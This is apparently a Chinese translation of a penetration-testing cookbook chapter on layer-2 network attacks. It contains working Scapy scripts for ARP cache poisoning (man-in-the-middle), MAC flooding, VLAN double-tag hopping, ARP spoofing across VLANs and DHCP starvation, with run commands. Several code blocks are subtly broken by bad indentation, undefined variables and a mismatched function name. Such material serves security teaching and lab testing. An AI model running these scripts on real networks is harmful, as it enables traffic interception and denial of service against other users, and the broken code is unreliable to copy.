





# 十、第二层攻击

在本章中，我们将介绍以下配方：

*   ARP 监视程序
*   ARP 缓存中毒
*   MAC 泛光器
*   跳跃攻击
*   基于 VLAN 跳变的 ARP 欺骗
*   饥饿

# 介绍

第 2 层是数据链路层，负责在具有 MAC 地址的以太网中寻址数据包。第 2 层用于在广域网的相邻网络节点之间或同一 LAN 上的节点之间传输数据。在本章中，我们将介绍 TCP/IP 第二层的一些常见攻击。

# ARP 监视程序

通过**地址解析协议**（**ARP**，我们可以找到活动的内部主机。我们可以编写一个脚本，用 Scapy 扫描给定网络中的主机。

# 怎么做。。。

我们可以通过以下步骤编写 ARP 观察程序：

1.  创建一个`arp-scanner.py`文件并在编辑器中打开它。
2.  然后，我们必须导入所需的模块：

```
from scapy.all import *
```

3.  现在声明脚本的变量：

```
interface = "en0"
ip_rage = "192.168.1.1/24"
broadcastMac = "ff:ff:ff:ff:ff:ff"  
```

4.  现在我们可以向 IP 范围内的所有 IP 发送 ARP 数据包，并获得应答和未应答的数据包。
5.  按如下方式创建 ARP 数据包：

```
pkt = Ether(dst=broadcastMac)/ARP(pdst = ip_rage)  
```

数据包的结构如下所示：


6.  然后用`srp()`发送数据包并接收响应：

```
answered, unanswered = srp(pkt, timeout =2, iface=interface, inter=0.1)  
```

7.  接下来，遍历所有应答的数据包并打印它们的 MAC 和 IP：

```
for send,recive in ans:
print (recive.sprintf(r"%Ether.src% - %ARP.psrc%")) 
```

8.  现在，使用所需权限运行脚本：

```
sudo python3 arp-scanner.py 
```

这将打印所提供网络范围内所有活动系统的 MAC 和 IP。输出如下：


9.  现在我们可以将其转换为 ARP 监视器，它能够监视网络的变化。为此，创建另一个`arp-monitor.py`文件并导入`scapy`模块。
10.  然后，创建一个函数来解析数据包并嗅探接口：

```
def parsePacket(pkt):
    if ARP in pkt and pkt[ARP].op in (1,2): 
        return pkt.sprintf("%ARP.hwsrc% %ARP.psrc%") 
```

11.  现在，开始嗅探并调用`parsePacket()`方法解析 ARP 数据包：

```
sniff(prn=parsePacket, filter="arp", store=0)  
```

12.  使用所需权限运行脚本以启动监视：

```
sudo python3 arp-monitor.py  
```

# ARP 缓存中毒

我们知道，TCP/IP LAN 上的系统通过其网络适配器的 MAC 地址相互识别和通信。每个系统都保留一个系统列表及其 MAC 地址供参考，称为 ARP 缓存。如果可能，我们需要用另一台机器的错误 MAC 地址欺骗一台机器的缓存。与该机器的所有通信（使用来自该机器的伪造 MAC 地址）都将定向到连接的机器。因此，ARP 缓存中毒是一种欺骗机器在其 ARP 表中保存关于 IP 地址的错误数据的方法。

# 准备

由于我们正在执行一种中间人攻击（从连接到同一网络的另一个设备获取数据），我们必须打开 IP 转发以确保受害者机器上的连接不受影响或中断。对于执行 IP 转发，Linux 和 macOS 有不同的方法。

# Linux

我们可以通过检查以下文件中的内容来检查 IP 转发的状态：

```
cat /proc/sys/net/ipv4/ip_forward  
```

如果输出为`1`，则启用 IP 转发；如果是`0`，则禁用 IP 转发。如果已禁用，请按如下方式启用：

```
echo 1 > /proc/sys/net/ipv4/ip_forward  
```

# 马科斯

您可以使用以下命令在 macOS 中启用 IP 转发：

```
sudo sysctl -w net.inet.ip.forwarding=1  
```

使用以下命令禁用它：

```
sudo sysctl -w net.inet.ip.forwarding=0  
```

# 怎么做。。。

以下是编写脚本以毒害受害者系统中的 ARP 缓存的步骤：

1.  创建一个新的`arp-cache-poisoning.py`文件并在编辑器中打开。
2.  导入`scapy`模块：

```
from scapy.all import *  
```

3.  声明变量。我们也可以从参数中获得这些参数，或者作为`raw_input()`：

```
interface = "en0"
gateway_ip = "192.168.1.2"
target_ip = "192.168.1.103"
broadcastMac = "ff:ff:ff:ff:ff:ff"
packet_count = 50  
```

4.  现在定义一个从提供的 IP 获取 MAC ID 的函数：

```
def getMac(IP):
    ans, unans = srp(Ether(dst=broadcastMac)/ARP(pdst = IP), timeout =2, iface=interface, inter=0.1)
    for send,recive in ans: 
        return r[Ether].src
    return None  
```

5.  现在用`getMac()`方法获取目标和网关的 MAC 地址：

```
try:
    gateway_mac = getMac(gateway_ip)
    print ("Gateway MAC :" + gateway_mac)
except:
    print ("Failed to get gateway MAC. Exiting.")
    sys.exit(0)
try:
    target_mac = getMac(target_ip)
    print ("Target MAC :" + target_mac)
except:
    print ("Failed to get target MAC. Exiting.")
    sys.exit(0)  
```

6.  定义用于毒害目标 ARP 缓存的函数：

```
def poison(gateway_ip,gateway_mac,target_ip,target_mac):
    targetPacket = ARP()
    targetPacket.op = 2
    targetPacket.psrc = gateway_ip
    targetPacket.pdst = target_ip
    targetPacket.hwdst= target_mac
    gatewayPacket = ARP()
    gatewayPacket.op = 2
    gatewayPacket.psrc = target_ip
    gatewayPacket.pdst = gateway_ip
    gatewayPacket.hwdst= gateway_mac
    while True:
       try:
           targetPacket.show()
           send(targetPacket)
           gatewayPacket.show()
           send(gatewayPacket)
           time.sleep(2)
         except KeyboardInterrupt:                
 restore_target(gateway_ip,gateway_mac,target_ip,target_mac)
            sys.exit(0)
       sys.exit(0)
       return
```

这里，我们发送两种类型的数据包——一种发送到目标机器，另一种发送到网关。前两个块定义这些数据包。目标数据包如下所示：



`gateway`数据包如下：



7.  现在创建一个函数，将中毒缓存重置回正常状态：

```
def restore(gateway_ip,gateway_mac,target_ip,target_mac):
    print("Restoring target...")
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=gateway_mac),count=100)
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=target_mac),count=100)
    print("[Target Restored...")
    sys.exit(0)
```

8.  然后，我们可以开始发送数据包：

```
try:
    poison(gateway_ip, gateway_mac,target_ip,target_mac)
except KeyboardInterrupt:
    restore(gateway_ip,gateway_mac,target_ip,target_mac)
    sys.exit(0)  
```

9.  使用所需权限运行脚本：

```
sudo python3 arp-cache-poisoning.py  
```

# MAC 泛光器

我们可以通过网络发送随机以太网流量来填充路由器的 MAC 地址存储。这可能会导致交换机出现故障，并可能开始将所有网络流量发送给连接到路由器的每个人，否则可能会失败。

# 怎么做。。。

以下是在路由器中泛滥 MAC 地址存储的步骤：

1.  创建一个`mac-flooder.py`文件并在编辑器中打开。
2.  导入所需的模块：

```
import sys
from scapy.all import *  
```

3.  将`interface`定义为泛洪。我们也可以从论点中得出：

```
interface = "en0"  
```

4.  使用随机 MAC ID 和随机 IP 创建数据包：

```
pkt = Ether(src=RandMAC("*:*:*:*:*:*"), dst=RandMAC("*:*:*:*:*:*")) / \
        IP(src=RandIP("*.*.*.*"), dst=RandIP("*.*.*.*")) / \
        ICMP()

```

数据包结构如下所示：



5.  最后，以无限循环发送数据包：

```
try:
    while True:
       sendp(pkt, iface=interface)
except KeyboardInterrupt:
   print("Exiting.. ")
   sys.exit(0)  
```

6.  现在以所需权限运行该文件：

```
sudo python3 mac-flooder.py  
```

# 跳跃攻击

VLAN 跳转是攻击者能够将流量从一个 VLAN 发送到另一个 VLAN 的攻击类型。我们可以用两种方法来实现这一点：双标记和开关欺骗。

为了创建双标记攻击，攻击者发送一个包含两个**802.1Q**标记的数据包——内部 VLAN 标记是我们计划访问的 VLAN，外层是当前 VLAN。

# 怎么做。。。

以下是模拟简单 VLAN 跳转攻击的步骤：

1.  创建一个`vlan-hopping.py`文件并在编辑器中打开。
2.  导入模块并设置变量：

```
import time
from scapy.all import *
iface = "en0"
our_vlan = 1
target_vlan = 2
target_ip = '192.168.1.2'  
```

3.  用两个 802.1Q 标签制作数据包：

```
ether = Ether()
dot1q1 = Dot1Q(vlan=our_vlan)   # vlan tag 1 
dot1q2 = Dot1Q(vlan=target_vlan) # vlan tag 2
ip = IP(dst=target_ip)
icmp = ICMP()
packet = ether/dot1q1/dot1q2/ip/icmp  
```

数据包如下所示：



4.  现在，以无限循环发送这些数据包：

```
try:
    while True:
        sendp(packet, iface=iface)
        time.sleep(10)
  except KeyboardInterrupt:
     print("Exiting.. ")
     sys.exit(0)  
```

5.  使用所需权限运行脚本：

```
sudo python3 vlan-hopping.py  
```

# 基于 VLAN 跳变的 ARP 欺骗

由于 VLAN 将广播流量限制在同一个 VLAN，因此我们在这里用 VLAN 标记每个数据包，并用目标 VLAN 标记额外的数据包。

# 怎么做。。。

以下是通过 VLAN 跳转模拟 ARP 欺骗攻击的步骤：

1.  创建一个新的`arp-spoofing-over-vlan.py`文件并在编辑器中打开。
2.  导入模块和设置变量：

```
import time
from scapy.all import *
iface = "en0"
target_ip = '192.168.1.2'
fake_ip = '192.168.1.3'
fake_mac = 'c0:d3:de:ad:be:ef'
our_vlan = 1
target_vlan = 2  
```

3.  使用两个 802.1Q 标签创建 ARP 数据包：

```
ether = Ether()
dot1q1 = Dot1Q(vlan=our_vlan)
dot1q2 = Dot1Q(vlan=target_vlan)
arp = ARP(hwsrc=fake_mac, pdst=target_ip, psrc=fake_ip, op="is-at")
packet = ether/dot1q1/dot1q2/arp  
```

以下是带有两个 802.1Q 标签和一个 ARP 层的数据包：


4.  以无限循环发送数据包：

```
try:
    while True:
       sendp(packet, iface=iface)
         time.sleep(10)
  except KeyboardInterrupt:
      print("Exiting.. ")
      sys.exit(0)  
```

5.  使用所需权限运行脚本：

```
sudo python3 arp-spoofing-over-vlan.py  
```

# 饥饿

DHCP 是帮助将客户端的 IP 地址分配到 LAN 的协议。分配 DHCP 的过程包括四个步骤——DHCPDiscover、DHCPOffer、DHCPRequest 和 DHCP ACK。

DHCPDiscover 是客户端在 LAN 中广播以查找可为客户端提供 IP 的 DHCP 服务器的第一步。然后服务器将以单播 DHCPOffer 响应，其中它提供了一个可能的 IP。然后，客户端将使用 IP 向所有网络广播 DHCPRequest，最后服务器将使用 DHCP ACK 或 DHCP NAK 进行响应。ACK 表示 DHCP 进程成功，而 NAK 表示 IP 不可用时：



DHCP 服务器将 IP 信息存储到 MAC 绑定。如果我们从 DHCP 服务器请求太多 IP，其他合法客户端将无法获得 IP 连接。这被称为**DHCP 饥饿攻击**。在这个配方中，我们将讨论这个过程的第三步。发送 DHCP 请求后，服务器将为客户端分配请求的 IP。这可用于攻击特定范围的 IP。

# 怎么做。。。

让我们尝试编写一个脚本，以使网络中的 DHCP 处于饥饿状态：

1.  创建一个`dhcp-starvation.py`文件并在编辑器中打开。
2.  导入所需的模块：

```
from scapy.all import *
from time import sleep
from threading import Thread 
```

我们需要`Scapy`来制作数据包，需要`threading`模块来线程化执行脚本

3.  现在，定义变量：

```
mac = [""]
ip = []  
```

4.  现在我们可以定义回调函数来处理捕获的 DHCP 数据包：

```
def callback_dhcp_handle(pkt):
    if pkt.haslayer(DHCP):
       if pkt[DHCP].options[0][1]==5 and pkt[IP].dst != "192.168.1.38":
          ip.append(pkt[IP].dst)
             print (str(pkt[IP].dst)+" registered")
          elif pkt[DHCP].options[0][1]==6:
              print ("NAK received")  
```

调用此函数以处理嗅探器接收到的每个数据包

5.  现在我们必须创建另一个函数来配置嗅探器。此函数由线程调用：

```
def sniff_udp_packets():
    sniff(filter="udp and (port 67 or port 68)",
          prn=callback_dhcp_handle,
          store=0)  
```

这将开始嗅探端口`67`和`68`的 UDP 数据包

6.  现在，我们可以创建一个 DHCPRequest 数据包并将其发送到计划饿死的 DHCP 服务器：

```
def occupy_IP():
    for i in range(250):
        requested_addr = "192.168.1."+str(2+i)
        if requested_addr in ip:
             continue
          src_mac = ""
          while src_mac in mac:
              src_mac = RandMAC()
         mac.append(src_mac)    
          pkt = Ether(src=src_mac, dst="ff:ff:ff:ff:ff:ff")
          pkt /= IP(src="0.0.0.0", dst="255.255.255.255")
          pkt /= UDP(sport=68, dport=67)
          pkt /= BOOTP(chaddr="\x00\x00\x00\x00\x00\x00",xid=0x10000000)
          pkt /= DHCP(options=[("message-type", "request"),
                               ("requested_addr", requested_addr),
                              ("server_id", "192.168.1.1"),
                               "end"])
          sendp(pkt)
          print ("Trying to occupy "+requested_addr)
          sleep(0.2)  # interval to avoid congestion and packet loss 
```

这将首先生成指定范围内的 IP。此外，它还将为数据包创建一个随机 MAC 地址。然后，这将生成一个带有生成的 IP 地址和 MAC 的 DHCPRequest 数据包。然后，它将发送数据包。生成的数据包如下所示：


7.  现在，我们可以启动线程并尝试占用 DHCP 服务器中的 IP 地址：

```
def main():
    thread = Thread(target=sniff_udp_packets)
    thread.start()
    print ("Starting DHCP starvation...")
   while len(ip) < 100: 
    occupy_IP()
    print ("Targeted IP address starved")   
  main()

```

8.  现在，使用所需的权限运行脚本。